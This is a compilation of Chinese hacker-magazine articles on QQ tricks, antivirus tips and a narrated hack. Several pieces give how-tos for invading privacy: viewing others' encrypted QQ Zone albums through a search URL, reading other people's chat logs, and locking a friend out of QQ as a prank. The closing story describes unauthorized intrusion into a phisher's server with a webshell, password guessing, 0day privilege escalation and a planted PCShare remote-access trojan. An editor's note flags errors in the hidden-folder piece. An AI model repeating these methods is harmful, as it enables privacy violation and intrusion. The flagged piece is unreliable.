不用着急，只要选择“QQ号码”这个选择项，然后单击“搜索”按钮，浏览器的地址会变成：http://qzone.soso.com/qz.q?sc=qz&ch=s:qz.uin&pid=qz.s.res&st=er&w=QQ号码&ty=uin，此时奇迹出现了！SOSO 居然搜索出来了加密的 QQ 空间的相册内容，如图4。

打开其中一个图片就可以进行正常的浏览，如图5。其实方法有很多种，就靠大家自己发掘了。通过本文的介绍，也希望能够给读者朋友带来一些新的 QQ 加密空间和加密相册破解思路。

> **编辑点评：**
>
> 前段时间空间的加密日志可以通过搜索查看，现在相册也可以了哦！其实你日志的内容都是放在公共服务器上的，只要你有资源的地址就能访问，可见 TX 对个人隐私的加密做的还不够哦，空间的日志加密只是防君子的东东。

## QQ空间5.0技术大揭秘

图评 安山

- 从本文您可以学到：
- 1. 怎样手工克隆空间
- 2. 删除垃圾日志
- 3. 标题栏的超另类删除

QQ 空间越来越得到菜菜们的喜爱，已经升级为 5.0 版本了！本文将为大家揭秘这其中的酷玩技巧。

### 手工空间的克隆

A：图片 URL 盗取

空间的克隆主要就是模块的克隆。空间 5.0 至今没有屏蔽右键功能，所以我们可以用右键属性功能获得图片、FLASH 等资源的地址！如图1、图2。

在网上有好多人问我，空间链接的模块是怎样建立的，如图3左边，在这里我就一并告知吧！获得地址后点击“自定义”“新建模块”——“图文模块”（其他情况自定），接下来就要填写模块信息了！如图3右边。

“标题”处就是空间中的显示文字，“标题链接”就是点击后要跳转的网址，“图片地址”就是文字前面的装饰，也就是我们盗取的东东。如果你要为自己定义的模块中添加链接，就点击“再添加一个图文项”。而这个新添加的图文项的设置与前面的方式相同。最后注意一定要将“模块边框”设置成“无”，这样更美观些。

B：FLASH 地址盗取

对于 FLASH 地址的盗取就麻烦一些。将鼠标放在 FLASH 上面，稍等后会出现“下载”（前提是你安装有下载软件，如迅雷）图标，如图4。

点击下载就开始调用下载软件，此时会出现“建立下载任务”，其中的网址就是刚才模块的地址，如图5。有了地址后就把它添加到模块中吧，填写方式与上相同。

C：黄钻装饰物品盗取

其实黄钻的装饰物品也是图片或者 FLASH，因此通过相同的方法就可以盗取！还是使用右键属性功能，如图6，看到地址了吧？

接着将黄钻这个挂件的地址添加到相应模块中，如图7，但是放置区域受到限制，不怎么爽啊！

### 垃圾日志删！删！删！

想必大家为了开花数没少写垃圾日志吧？现在看了是不是很不爽啊？想删除却又心疼好不容易得到的花值，用什么技巧可以删除垃圾日志又不改变花值呢？

5.0 空间中设置了一个私密日志可以帮助我们解决这个问题！打开要 KO 掉的日志，点击“编辑”——“更多”——“转到私密记事本”，如图8。这时出现如图9的提示，其实此时已经达到了不让别人看见自己垃圾日志的目的！

如果你对此还深恶痛绝，那就删除，此时删除是不会付出代价的！我将删除前与删除后的花值给大家对照看一下，如图10、图11。怎么样？大家还不快去废除自己的垃圾日志！速度啊，别让 TX 知道了！

### 标题栏的超另类删除

4.0 中根本没有免费删除的方法！标题栏的超难看严重影响了空间美感，如图12。

还好 5.0 提供了一个超另类的方法！选择“自定义”——“风格”——“简约模式”，如图13。

此时你的空间皮肤自动变为白色，我们只需要找一个黑色免费皮肤就可以了，我用的是 `javascript:window.top.space_addItem(1,26498,80,0,0,0,93);`。大家来看看，如图14，大功告成，是不是很爽了？

### 总结

TX 出现新东西一定也带来新问题，世界上并不是缺少漏洞，只是缺少发现漏洞的眼睛！漏洞还会存在，我只是抛个砖，希望大家有什么发现都放到“黑手”上来分享分享！

> 编辑点评：
>
> 空间升级了，安全升级了，但不管怎么升级，漏洞还是会有的。本文介绍了几个可以利用的小漏洞，让大家以后装扮空间更得心应手。

## QQ 技术全攻略

- 从本文您可以学到：
- 1. 用 QQ 做恶作剧
- 2. 查看和保护 QQ 聊天记录
- 3. 怎样保护 QQ 密码

### QQ 恶作剧

想整整你的朋友吗？教大家一个恶作剧的小方法，让别人的 QQ 无法登录，呵呵。在 Windows XP 系统中，如果你想让某个 QQ 号码无法登录，方法如下：

首先我们打开“资源管理器”——“工具”——“文件夹选项”，选择“查看”选项卡，把里面的“使用简单文件共享”前面的勾去掉，然后点“确定”，如图1。

然后我们再找到 QQ 的安装目录，在 QQ 的安装目录里新建一个文件夹，文件夹的名字就写那个不想让它登录的 QQ 号码，然后右键文件夹，选择“属性”，再到“安全”选项里把“写入”的权限改为“拒绝”，点“确定”就 OK 了。这样我们的目的也就达到了，很简单吧？大家都会。

### QQ 聊天记录的攻防

本地聊天记录查看，我们用到一款小工具“QQ 聊天记录查看器”，下载地址是“http://www.3800hk.com/Soft/qqsoft/21339.html?1079230503=3740431833”。打开工具后，选择要查看聊天记录的 QQ，如图2，再点击要查看的 QQ 号码就可以了，这样可以偷窥到别人的聊天记录。

只有攻没有防也不行啊，关于聊天记录的安全，我们可以选择两种方法来进行保护，使得不会被别人非法查看。很多人都是在网吧上网吧？网吧电脑是共用的，所以不可避免地和别人共用一台电脑。现在我们就要启用 QQ 聊天记录加密功能了，为了防止别人恶意查看我们的聊天记录。

点击 QQ 菜单中“设置”下的“系统设置”，在弹出的窗口中我们选择“安全设置”，再选择“聊天记录安全”，把“启用聊天记录加密”打上勾，再设置上密码，也可以设置口令提示，如图3，设置好后点确定就 OK 了。

还有一种方法，就是直接删除聊天记录。找到 QQ 安装目录下以自己 QQ 号码命名的文件夹，把它删除就 OK 了，这样聊天记录也就跟着删除了。

这样做虽然方便，但是下次登录 QQ 的时候它也就没有了聊天记录，如果大家想保存聊天记录，又不想让别人偷看自己的聊天记录，那就做个备份吧。

我们点 QQ 下面那个小喇叭，在弹出的窗口中选择“导出聊天记录为文件”进行保存就可以了，如图4。做好了备份我们就可以大胆地删除记录了，如果以后需要用记录的时候，再把备份的聊天记录文件导入就可以了。

### QQ 密码安全

腾讯也推出了密保卡，可以免费领取，我们打开 http://mibaoqa.qq.com，登录 QQ 后，点击“免费领取密保卡”，再点击“免费下载密保卡”，就会出现一个有序列号的图片，它就是 QQ 的密保卡了。然后再点击“保存密保卡”，把密保卡图片保存至安全的地方。

保存好了以后，点击“立即绑定密保卡”，在“请输入密保卡序列号和坐标对应的数字”页面，输入序列号和相应坐标对应的数字，然后点击下一步，需要验证二代密码资料。我们选择验证三个机密问题，然后再点下一步，问题的答案填写好以后点击下一步，提示密保卡绑定成功。设置您需要的保护服务，然后点击“服务设置”选择你要保护的 QQ 服务，如图5。选择好了以后点击“下一步”就搞定了。当我们在登录 QQ 时就会要求输入密保卡上对应的数字，如图6。

如果在设置“服务设置”的时候设置了保护别的服务，登录的时候也会要求输入密保卡上对应的数字，大家可要把自己的密保卡保护好啊。呵呵，现在我们就不怕密码再被盗了。

> **编辑点评：** 本文对 QQ 的各种攻防有一个统一的介绍，相信对小菜有不少帮助。

## 巧设QQ代理，气死嚣张彩虹QQ

最近彩虹 QQ 怎么那么火呢？还不是因为可以免费查看好友是不是在线，还可以查看 IP 地址。其实对好友来说这是无所谓了，就怕有不法之徒陷我于不利之中。害人之心不可有，防人之心不可无啊（还记得网上有好友问我的 IP 为什么 PING 不通，这种所谓的好友我们强烈抵制！）。

其实方法挺简单的，就是换一下自己的 IP 地址！首先找到愿意为我们做代理的地方，比如：http://mmweb.cn/tools/proxy/tunnel.php，打开后会看到各国各地的代理地址（以 HTTP 代理为例，同样建议使用 HTTP 代理，稳定且速度快！SOCKS 的大家尽量不要用），如图1。接下来我们选择一个速度稍快一点的代理，这里我选择了韩国的 58.227.194.87，端口 8080。接下来就需要在自己的 QQ 上设置了，用户名与密码可以不填写，如图2。

接下来的操作我用自己的 QQ 为大家演示。我登录了两个 QQ，一个是普通 QQ，也就是进行了代理设置的那个号码。另一个自然就是彩虹 QQ 了！我用彩虹 QQ 给普通 QQ 发了表情后，IP 地址就显示出来了，如图3，看到当前位置是韩国哦，即使你不是为了隐藏自己的 IP，但拿这个唬人不是也很棒吗？

彩虹 QQ 这样受欢迎，主要一点原因应该是可以查看隐身好友！接下来为大家演示如何躲过彩虹 QQ 的“查看隐身”功能。先让我的普通 QQ 隐身，这时彩虹 QQ 上就显示上次登录地，而且自己的名字也不会显示为蓝色的隐身色，如图4。看到了吗？仅仅添加了一个代理，就可以让彩虹 QQ 残废，是不是很爽？但是必须指出的是，当你对好友设置了“在线对其隐身”时，彩虹 QQ 就可以显示你的隐身。而且彩虹 QQ 使用代理的话，它就根本无法正常使用，所以不友好的行为大家还是不要做得好，毕竟朋友不是用来辛苦的。

## 无论登录QQ不登录会员 在网页中查看好友资料

很多公司都禁止员工使用 QQ 进行聊天，但在受到限制的情况下，很多朋友又都希望能实时关注到好友的资料和信息更新，例如 QQ 空间最新的文章、相册、最新的个性签名等。

如果能够实时关注好友，特别是喜爱的 MM 资料更新，根据 MM 的心情，送出不同的礼物和惊喜，往往还能起到极佳的效果（小编汗……）。而今天，笔者就教大家如何在不登录 QQ 的情况下，轻松查看好友的资料信息。

方法十分简单，打开浏览器程序，输入下列网址：`http://labs.qq.com/ie8/preview/?uin=XXXXXXXX`（XXXXXXXX 表示 QQ 号码），将 QQ 号码替换成需要查看的好友号码，即可轻松查看到最新的资料信息，如图1。

同时，在资料卡片中，还有临时对话和访问对方 QQ 空间/相册的快捷按钮，可以十分方便地访问用户的空间和相册，很适合登录 QQ 不方便的用户使用。

## 不是会员 也能穿红钻QQ秀

最近因为穿的 QQ 秀都过期了，所以先去逛了下 QQ 秀商城，发现一个不是会员也能穿红钻 QQ 秀的方法，不敢独享，所以公布出来。

- 1. 登录 QQ 秀商城，然后登录你的 QQ 秀，并将 QQ 秀切换到经典形象。
- 2. 在 QQ 秀商城上方的搜索框里面，输入“红钻”进行搜索。
- 3. 会搜索出一堆的红钻 QQ 秀，不要怕，大胆地把它穿起来。
- 4. 试穿完了后，点保存形象，这一步很重要。

看，我已经把它穿起来了，如图1，你也赶快把它穿起来向朋友秀一下吧。

栏目首语：

又要过冬了，大家都在准备冬驾吗？我有好多论坛的人气都不怎么样，难道也是受到了季节的影响而要冬眠？从开始接手“Q版黑客”栏目以来，这个版块的稿件来源就不算稳定。这里我鼓励大家写一些小技巧之类的文章，虽然不像“高手专栏”那样，但只要你在电脑方面有鲜为人知的小技巧，那么就和大家一起分享吧！这期我带个头，写了一篇关于中毒后小技巧应用的文章，下期就看大家的自由发挥了。

## 中毒后的小技巧备选

**从本文你可以学到：**
**中毒后的几个小技巧**

经常玩黑的人应该或多或少都中毒过吧？人与病毒、木马等的较量过程中你收获了多少经验呢？这里也只是经验之谈，让你了解更多的实用小技巧而已，也许下一次，本文的招数你就会派上用场哦。当然，本文不可能很高深，是给菜鸟学习的，呵呵……

### 一、无法打开任务管理器

不小心中毒后最常见的现象之一就是打不开任务管理器，按 Ctrl+Alt+Del 组合键没反应，就算是想在任务栏上右键打开，也会发现那个选项是灰色的。

百度一下后，发现是修改了注册表。可把注册表相关项恢复后依然无法打开，怎么办？去下一个进程管理器么？呵呵，多麻烦呀，机器上自带的命令行下的东西可是很优秀的，它们就是 tasklist 和 taskkill，这两个命令大家应该都用过了，这里我再提一下。

先用 `tasklist /svc` 看一下进程名及其对应的 pid 值和服务名，如图1。

然后用 taskkill 干掉其可疑进程，如 `taskkill /pid 2164`，就可以终止 pid 为 2164 的进程了，如图2。

其中还有一个 `/f` 参数，是强制结束。这里有些人就有疑问了，比如经验不太丰富的人会不知道哪个进程是病毒进程！嗯，这是一个比较棘手的问题，那么我们再请出 wmic，嘿嘿，也是命令行下的操作。首次输入 wmic 会提示正在安装，如果安装后，输入 wmic 后的画面如图3。

这里我们输入 process，看下是啥反应，如图4。

怎么样？正在运行的进程所在的目录都出来了吧？那些明显不对劲的程序所在位置不是就可以大概分辨出来了？这招来得快吧？

### 二、无法开任何杀软相关的软件

我们很头疼病毒木马，病毒木马却很头疼杀软，于是两者就开始动脑筋较劲了。病毒木马要么是免杀的，要么就是会在运行前，以及在运行的过程中阻止杀软的运行以达到保护自身的目的。

这里先说一下一些病毒是怎么做到这一点的。病毒是利用关键字来分辨系统中是否有杀软相关的软件的，这一点就是病毒的软肋。病毒还没有高级到人脑的地步，比如 360 的主程序名为 360Safe.exe，那么 360 就是关键字，以此联想，我们在中毒后把 360Safe.exe 随便改成一个名字，比如 1.exe，病毒就不认识它是 360 了。

这个方法我试过好多次哦，还有就是利用映像劫持，也可以用改成任意名这一招来对付。要是改成 exe 后缀名不行，我们还可以改成 com 后缀的，也是可以执行的哦！

### 三、无法删除文件

有些文件你一删除它又回来了，说明还有进程保护它，要是病毒的反应时间迟钝的话，你完全可以和它抢时间来把它消灭掉。我们可以用批处理来实现这个功能，比如病毒文件是 1.exe，那么代码如下：

```bat
del /f /s /q 1.exe
md 1.exe
attrib +h +a +s 1.exe
```

这样利用 Windows 的特性，同一文件夹下不能出现同名的文件，1.exe 再次恢复的时候会提示出错的。这里杀毒是采用批处理方式，vbs 以及 inf 文件都是可以利用的资源。

### 四、无法找到病毒源文件

病毒文件把自己隐藏起来了，而且修改注册表不起作用，那么 Windows 自带的搜索功能就显得大神奇了。按一下 Win+F 键，搜索框就出来了，我们搜索“所有文件或文件夹”，然后在“全部或部分文件名”里填上 *，表示任意文件或文件名。

然后注意下面的选项，其中“什么时候修改的”，这里选“指定日期”，不知道就不要动，默认是当日日期。接着看下面的“大小是”，这里选“不记得”（病毒文件体积一般都很小，为几十到几百 K），下面的“更多高级选项”里把“搜索隐藏文件和文件夹”选上。一步设置好后，单击一下“搜索”，等待搜索结束，看下效果，如图 5。

接下来就可以用命令来 kill 病毒体了。好了，就到这里，经验性的东西都不太好说，大家自己理解吧！



图 5

> **编辑点评：**  
> 没什么好说的，经验性的东西！大家慢慢体会！



## 对《Windows 下建立隐藏文件夹》一文的补充

图水远的疯子



图 1

从本文你可以学到：

- 关于建立隐藏文件夹的知识补充

由于上半年在准备着复试，都没有时间细看《黑客》，现在时间相对多些，所以才有机会仔细研究以前的文章，也就有了本文。

看了 2008 年第 2 期《Windows 下建立隐藏文件夹》这篇文章后，很有启发，但对作者提出的删除方法，本人认为太麻烦了，于是做了个补充，另外还给了一个应用。

删除方法：依次选择“开始”→“运行”→“cmd”，在命令提示符下转到 U 盘中我自建的一个文件夹目录，输入“start i:\yydfz\..\”，回车后会弹出一个窗口，如图 1（注意：在 start 后要给出绝对路径，否则会失败的）。

隐藏文件夹内我存放了一个文件，只要我们把这个文件删除，就可以在命令提示符下用“rd ..\”把该隐藏文件夹删除，还可以用批处理来执行这些操作。

> 但是有一点要注意：用批处理不能删除隐藏目录下的文件；相反它却删除了 U 盘根目录下的所有文件，因此并不提倡用这种方法。



图 2

也可以在“运行”中直接输入“i:\yydfz\..\”，回车后也会弹出如图 1 所示的窗口。我不提倡这种方法，因为在这地方会留下痕迹，容易让别人知道秘密。另外，也可以用 wsyscheck 来删除这个文件夹，即使隐藏文件夹里有文件，如图 2。

怎么样删除就不用说了吧。另外，从图 2 中还可以看到，我在 U 盘里还建立了另一个隐藏目录（命令提示符看不到了的那两点），而在 wsyscheck 下却没有看到，这又为我们的隐藏提供了一个方便，怎么用那就要看你的想象力了。

在这里想说一下冰刃（IceSword 1.22），它在这一方面真的不如 wsyscheck，两种删除方法都提示失败。从这可以看出，当我们遇到困难时不妨换思路，不要在一棵树上吊死。

废话就不多说了，我还想到了一个不错的应用：建一个 autorun.inf 文件夹（知道是什么了吧 ^_^），然后在此文件夹中建隐藏文件夹，为防止病毒删除该文件夹，可以在这之下建立多个这样的文件夹并随便粘贴一个空的 txt 文本，看病毒还能怎么逞强。因此 U 盘免疫就这么简单了，不用再下什么软件来做免疫了，自己的才是最好的。

以上都是基于 FAT32 文件系统之上的操作，在 Windows XP SP2 下测试通过。

> **编辑点评：**
>
> 对于本文我是要批评的，本来这篇文章的出发点是好的，是要对以往的文章中的不足提出自己的看法，可文章作者太不细心了。文章里的“.”、“\”那三个点是用的省略号，如果你用 md ...\ 这样的方式来建一个文件夹，发现和普通文件夹一样，而 start i:\yydfz\...\ 命令却是点。但是我在 cmd 下却无法用 md \...\ 建立文件夹，会提示“文件名、目录名或者卷标语法不正确”。还有，用 rd 不加参数的时候删除一个目录的确是要求该目录为空，但加上 /s 参数就会强制删除整个目录，不管该目录是不是为空目录。再次，防止 U 盘病毒除了建立一个这样的文件夹外，最好是给其权限上的限制，而不是在其目录树下建一个空文件。也不知道作者是怎么测试的，也有可能是作者粗心的缘故，希望各位看官引以为戒，当然各位的怀疑和探讨的精神还是要继续哟。

## 一次对盗号者的“复活”

黑black humor @ [B.H.S.T]

**从本文你可以学到：**

社工的几点应用

本文没有什么技术含量，看“黑手”N 期了还是第一次投稿。玩的就是思路，所以在此献丑了，还望“黑手”的各位看官别扔砖头。昨日刚一上 QQ，就有人发来消息，打开一看是一个 exe 文件的地址，如图 1。

我记得这人老是在我群里发些广告，说什么承接盗号刷钻业务，如图 2。

现在他又发到我 QQ 上来了，真是烦！一看他发的那个地址：33xxxxx.xxxxx.com/33.exe，是一个二级域名。我发了几个“？”，那边没反应，估计又是一个木马，想盗号，不过呢……我可不喜欢打游戏，更不喜欢他的木马，不吃这一套，更讨厌这种“黑客”，于是想看要怎么来“玩玩”这个“黑客”。





先打开那个二级域名的主站看看，说不定是个免费空间提供商。果然，就是提供虚拟主机域名服务的，手头正好没有空间呢；先去注册一个瞧瞧。几分钟过后，注册成功并开通 FTP，传个 asp 木马上去，试下能不能提权拿到服务器权限。结果常用的方法及最新的几个 0day 都试了，没有成功，看来虚拟主机的确不好提权啊，也许是我技术不行吧，郁闷 ing~

当前目录是 d:\vhost\xxxx（xxxx 为申请的用户名），想通过目录跳转，提示“找不到路径”，然后传了个 lake2 的 webadmin.aspx 木马，成功跳转到他的 web 目录，如图 3。

还有读取权限，人品到家了，呵呵。看了下几个 asp 文件的代码，原来是盗号用的。查看了他的 conn.asp，找到数据库，下载下来后拿到密码去登录盗号程序管理页面，只有一个测试账号，看起来才“开张”不久，里面还躺着一个 jiqing.exe。

怎么没有见 33.exe 呢？管它呢，先看看能不能拿下来。于是就想用这个密码去试一下他的 FTP，结果失败。再用账号 33xxx，密码也用 33xxx，登录成功，如图 4。

看来我人品不错，我把他那个 jiqing.exe 替换成我的 pcshare 服务端，就等现成的肉鸡上线。中午在帮一个朋友提权（他们公司服务器，用 win2003 0day 提权成功，执行了我的 pcshare 服务端）时顺便打开 pcshare 看了一下，发现多了台肉鸡，一台是朋友公司服务器，一台是安徽省 xxx 市。觉得有点奇怪，打开屏幕监控，看了下，如图 5、图 6。



